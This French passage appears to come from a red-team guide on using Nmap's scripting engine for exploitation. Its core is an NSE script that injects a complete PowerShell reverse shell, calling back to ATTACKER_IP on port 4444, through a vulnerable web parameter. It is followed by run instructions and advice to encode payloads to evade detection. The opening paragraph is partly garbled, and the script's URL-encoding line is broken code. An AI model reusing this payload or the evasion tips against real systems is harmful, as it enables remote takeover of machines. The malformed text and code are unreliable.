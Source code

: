Les commandes suivantes incluent une description des sorties ainsi que plusieurs éléments d'intuition technique; une intuition plus profonde est fournie pour chaque commande. Pour éviter de faire face à des problèmes importants, le scan de réseaux étrangers doit être considéré comme hautement contraire à l'éthique et doit être légalement autorisé. La disponibilité des commandes dans un outil spécifique n'est pas requise, car cela dépend des installations précédentes de l'utilisateur; une machine virtuelle et une commande sont requises par l'édition communautaire.

### 4.2. TECHNIQUES D'EXPLOITATION ET DE POST-EXPLOITATION

Nmap n'est pas simplement un outil de reconnaissance; son extensibilité par scripts et son intégration avec des frameworks modernes en font un atout polyvalent pour les red teamers pendant les phases d'exploitation et de post-exploitation. Cette section plonge dans des techniques avancées exploitant les moteurs de script de Nmap, le support de protocole et les capacités d'exécution de code personnalisé pour réaliser une exploitation précise et maintenir la persistance.

#### 4.2.1. EXPLOITATION DE SCRIPT POWERSHELL INTÉGRÉ VIA DES VULNÉRABILITÉS DE SERVICE

Alors que l'option -p de Nmap spécifie les ports, son moteur de script (NSE) permet l'exploitation de services vulnérables à l'injection de commandes. En créant des scripts NSE, les red teamers peuvent intégrer des charges utiles PowerShell pour exécuter du code arbitraire sur des cibles Windows. Par exemple, exploiter un serveur web vulnérable à l'injection de commandes (par exemple, via le sabotage de paramètres HTTP) pourrait impliquer l'injection d'un shell inversé PowerShell.

Exemple de Squelette de Script NSE:
```
description = "Injecte un shell inversé PowerShell via un paramètre vulnérable"
author = "Red Team"
categories = {"exploit"}
portrule = function(host, port)
    return port.protocol == "tcp" and port.number == 80
end
action = function(host, port)
    local cmd = "powershell -nop -c \"$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',4444);
$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\""
    local path = "/vulnerable-endpoint?param=" .. os.getenv("URL_ENCODE")(cmd)
    local response = http.get(host, port, path)
    return "Payload injecté via injection de commande"
end
```

Utilisation:
* Remplacez ATTACKER_IP par l'IP de votre serveur C2.
* Exécutez avec:
`nmap -p 80 --script http-vuln-powershell-inject [target]`

Considérations clés:
* Le service cible doit permettre l'exécution de commandes non validées.
* Utilisez l'encodage (par exemple, Base64, URL) pour évader la détection.
